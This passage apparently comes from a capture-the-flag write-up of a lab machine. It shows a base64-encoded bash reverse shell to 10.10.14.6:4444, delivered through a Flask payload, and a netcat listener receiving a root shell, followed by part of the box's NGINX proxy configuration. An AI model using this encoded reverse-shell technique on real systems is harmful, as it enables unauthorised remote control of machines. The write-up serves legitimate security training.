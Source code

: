 To avoid worrying about special characters, I’ll just encode a shell:

```

oxdf@parrot$ echo 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1' | base64 
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0NDQgMD4mMQo=

```

Now I’ll update the payload in Flask:

```

cmd = "echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0NDQgMD4mMQo='|base64 -d|bash"

```

On sending, I get a connection back with a shell:

```

oxdf@parrot$ nc -lnvp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.117.
Ncat: Connection from 10.10.11.117:45574.
bash: cannot set terminal process group (32938): Inappropriate ioctl for device
bash: no job control in this shell
root@Jarmis:/var/opt/microsoft/scx/tmp#

```

From there I can grab both `user.txt` and `root.txt`.

## Beyond Root

### Webserver Setup

#### NGINX Config

The webserver is NGINX. Looking at `/etc/nginx/sites-enabled/default`, it’s single server proxying various paths:

```

server {
        listen 80 default_server;
        listen [::]:80 default_server;

        root /var/www/html;

        index index.html;

        server_name _;
        
        location / {                                
                # First attempt to serve request as file, then
                # as directory, then fall back to displaying a 404.
                try_files $uri $uri/ =404;
        }

        location /api/ {                            
                proxy_pass http://127.0.0.1:8001/api/;
        }                                           

        location /docs {                            
                proxy_pass http://127.0.0.1:8001/docs;
```
